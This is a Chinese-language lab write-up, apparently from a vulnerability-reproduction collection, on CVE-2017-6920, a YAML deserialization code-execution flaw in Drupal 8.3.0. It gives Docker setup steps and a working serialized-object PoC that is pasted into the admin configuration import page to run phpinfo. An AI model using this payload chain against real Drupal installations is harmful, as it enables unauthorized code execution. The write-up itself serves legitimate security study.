



# Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞 CVE-2017-6920

## 漏洞描述

影响软件：Drupal

方式：反序列化

参考链接：[CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](https://paper.seebug.org/334/)

效果：任意代码执行

> PECL：PHP Extension Community Library
>
> YAML：Yet Another Markup Language

## 环境搭建

Vulhub执行如下命令启动 drupal 8.3.0 的环境：

```bash
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。



## 漏洞复现

先安装 `yaml` 扩展

```
# 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
cat > sources.list << EOF
deb http://mirrors.163.com/debian/ jessie main non-free contrib
deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
EOF
# 安装依赖
apt update
apt-get -y install gcc make autoconf libc-dev pkg-config
apt-get -y install libyaml-dev
# 安装yaml扩展
pecl install yaml
docker-php-ext-enable yaml.so
# 启用 yaml.decode_php 否则无法复现成功
echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
# 退出容器
exit
# 重启容器，CONTAINER换成自己的容器ID
docker restart CONTAINER
```

登录一个管理员账号，访问 `http://[your ip]:8080/admin/config/development/configuration/single/import`

如下图所示，`配置类型` 选择 `简单配置`，`配置名称` 任意填写，`将配置粘贴到此处` 中填写PoC如下：

```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```



点击 `导入` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面



